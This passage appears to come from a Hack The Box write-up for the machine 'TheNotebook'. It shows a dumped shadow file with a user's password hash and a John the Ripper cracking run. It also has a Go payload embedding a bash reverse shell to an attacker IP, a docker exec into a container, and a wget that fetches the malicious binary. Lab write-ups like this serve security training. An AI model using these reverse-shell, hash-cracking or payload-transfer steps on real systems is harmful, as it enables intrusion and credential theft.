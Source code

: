 ```bash
nobody:*:18480:0:99999:7:::
systemd-network:*:18480:0:99999:7:::
systemd-resolve:*:18480:0:99999:7:::
syslog:*:18480:0:99999:7:::
messagebus:*:18480:0:99999:7:::
_apt:*:18480:0:99999:7:::
lxd:*:18480:0:99999:7:::
uuidd:*:18480:0:99999:7:::
dnsmasq:*:18480:0:99999:7:::
landscape:*:18480:0:99999:7:::
pollinate:*:18480:0:99999:7:::
sshd:*:18670:0:99999:7:::
noah:$6$fOy3f6Dp$i9.Ut7PlJpP19ZPTqmkmiRwqNunLqNEjNwq1iIeffXGi6OaDy8CtAEXXJf2SkO2fiZxuy.tWuWhsmyvl92L/W.:18670:0:99999:7:::
```

We can try to crack with `John The Ripper`

```bash
joshua@kaligra:~/Documents/htb/machines/TheNotebook$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:41 0.14% (ETA: 01:55:12) 0g/s 602.0p/s 1204c/s 1204C/s rosanegra..green07
..
..
```

Meanwhile, we can use a different payload, for example with a reverse bash shell:

```bash
func main() {
        // This is the line of shell commands that will execute on the host
        var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.43/5555 0>&1
```


We upload this new binary (`main-reverse`) on target.

We enter in the container `webapp-dev01`:

`sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash`

Within the container, we transfer our malicious go binary `main-reverse` 

```bash
root@8eeb30b468ae:~# wget http://172.17.0.1:8888/main-reverse                                  │Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet conne
--2024-04-26 16:04:45--  http://172.17.0.1:8888/main-reverse                                   │ction or proxy settings
Connecting to 172.17.0.1:8888... connected.                                                    │
HTTP request sent, awaiting response... 200 OK                                                 │
Length: 2110608 (2.0M) [application/octet-stream]                                              │Last login: Fri Apr 26 15:40:20 2024 from 10.10.14.43
Saving to: ‘main-reverse’               
```
